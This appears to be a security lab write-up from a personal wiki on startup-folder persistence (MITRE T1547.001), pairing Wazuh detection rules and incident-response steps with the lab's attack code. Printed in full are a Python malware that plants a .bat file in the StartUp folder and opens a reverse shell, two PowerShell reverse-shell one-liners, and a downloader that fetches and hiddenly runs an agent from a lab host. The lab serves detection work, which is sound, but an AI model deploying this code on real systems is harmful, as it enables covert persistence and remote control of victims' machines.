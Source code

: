 ```yaml
---
{"dg-publish":true,"permalink":"/mitreattck-analysis/persistence-t1547-001/persistence-t1547-001/","tags":["mitre"]}
---
```


### Summary
---
### Initials
---
- **Atomic Red Team ID**: T1547.001 - Persistence
- **Description**: Using various techniques to maintain access across system restarts, change credentials or any other interruptions, in this experiment a malware that adds a `.bat` file on the public User's startup folder that creates a reverse shell.
- **Challenges Encountered & Solution*:
	- It requires running the script with administrative privilege.
## Analysis
---
File is added in user's public startup directory, one of the symptoms of a persistence, there are many ways to establish persistence one of the ways is modifying the registry or adding files in the task scheduler:

![](/img/user/images/Pasted image 20240811215835.png)

However the reverse shell or network connection but the command such as `whoami` is detected as well as:

![](/img/user/images/Pasted image 20240811215850.png)

### WAZUH. rule creation
---
In a normal environment, our clients usually connect to _well-known ports_ such as port 21, 80, 443 but rarely on something like 4444 which is the default port used in metasploit for reverse shells.

We can create blacklist or whitelist depending on the fields extracted in the decoding phase by using Wazuh's Constant Database (CDB).

1. Create a file name `/var/ossec/etc/lists/common-ports` at the manager.
2. Then input the most well-known ports (this should be tailored around the environment for example if organization never uses ssh then remove port 21 from the list) follow the format

```
22:
80:
```

3. Change the permission so Wazuh can detect this file:

```bash
chown wazuh:wazuh common-ports
chmod 660 common-ports
```

4. Navigate and open a text editor to `/var/ossec/etc/ossec.conf` and find the `<ruleset>` section and add the following:

```XML
<list>etc/lists/common-ports</list>
```

Should go something like this:

![](/img/user/images/Pasted image 20240811215904.png)
7. Add the rules to detect the attack:

```XML
<!-- Abnormal Destination Port Detected -->  
<rule id="102503" level="10">  
  <if_group>sysmon_event3</if_group>  
  <list field="win.eventdata.destinationPort" lookup="not_address_match_key">etc/lists/common-ports</list>  
  <description>Sysmon - Event 3: Network connection to Uncommon Port by $(win.eventdata.image)</description>  
  <group>sysmon_event3,</group>  
</rule>
```

Should look something like this:

![](/img/user/images/Pasted image 20240811215909.png)
## Incident Response
---
- **Incident identification criteria** - file added to startup folder for either the public or users directory.
- **Investigation steps** - strange process and cmd window popup at start up
- **Containment actions** - disconnect the compromised host
- **Eradication procedures** - remove the file from the startup folder and it's parent image.
- **Recovery steps** - Implemented File Integrity Monitoring with Wazuh to detect changes at start up folders.

```C
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

Run file as administrator:

```C
@echo off

:: Check if the script is running as admin

net session >nul 2>&1

if %errorLevel% neq 0 (

    echo Requesting elevation...

    powershell.exe Start-Process "%~0" -Verb RunAs

    exit /b

)

:: Run the Python script

python "C:\Users\lauraArseid\Documents\evil.py"
```

The Malware:

```python
import sys
import os.path
import os,socket,subprocess,threading;


# Get the python path:
python_path = sys.executable

# Get the current directory of where this python executing
current_file_path = path = os.path.abspath(os.path.dirname(__file__))
current_file_path_name = path = os.path.abspath(__file__)

path = 'C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\bad.bat'

check_file = os.path.isfile(path)

# Revere shgell
def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

if not check_file:
    # Write a .bat script to execute on user login
    with open("C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\bad.bat", "a") as bad_bat:
        bad_bat.write("@echo off\n")
        bad_bat.write(f'python "{current_file_path_name}"')
else:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.200.200.7",4444))

    p=subprocess.Popen(["sh"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

    s2p_thread = threading.Thread(target=s2p, args=[s, p])
    s2p_thread.daemon = True
    s2p_thread.start()

    p2s_thread = threading.Thread(target=p2s, args=[s, p])
    p2s_thread.daemon = True
    p2s_thread.start()

    try:
        p.wait()
    except KeyboardInterrupt:
        s.close()
```

The reverse shell used:

```
$LHOST = "10.200.200.7"; $LPORT = 4444; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.200.7',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


```Powershell
$server="http://10.200.200.7:8000";  
$url="$server/test.txt";  
$wc=New-Object System.Net.WebClient;  
$wc.Headers.add("platform","windows");  
$wc.Headers.add("file","sandcat.go");  
$data=$wc.DownloadData($url);  
$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");  
get-process | ? {$_.modules.filename -like "C:\Users\Public\$name.exe"} | stop-process -f;  
rm -force "C:\Users\Public\$name.exe" -ea ignore;  
[io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data) | Out-Null;  
Start-Process -FilePath C:\Users\Public\$name.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```


```XML
<group name="syscheck,pci_dss_11.5,nist_800_53_SI.7,">
    <!-- Rules for Windows systems -->
    <rule id="100200" level="7">
        <if_sid>550</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File modified in startup directory.</description>
    </rule>
    <rule id="100201" level="7">
        <if_sid>554</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File added to startup directory.</description>
    </rule>
</group>
```

```XML
<group name="syscheck,pci_dss_11.5,nist_800_53_SI.7,">
  <rule id="100200" level="7">
    <if_sid>550</if_sid>
    <field name="file">^C:\\Users\\.*\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp</field>
    <description>File modified in user startup directory.</description>
  </rule>
  <rule id="100201" level="7">
    <if_sid>554</if_sid>
    <field name="file">^C:\\Users\\.*\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp</field>
    <description>File added to user startup directory.</description>
  </rule>
  
<rule id="100200" level="7">
        <if_sid>550</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File modified in startup directory.</description>
    </rule>
    <rule id="100201" level="7">
        <if_sid>554</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File added to startup directory.</description>
    </rule>
</group>
```

![](/img/user/images/Pasted image 20240811215918.png)


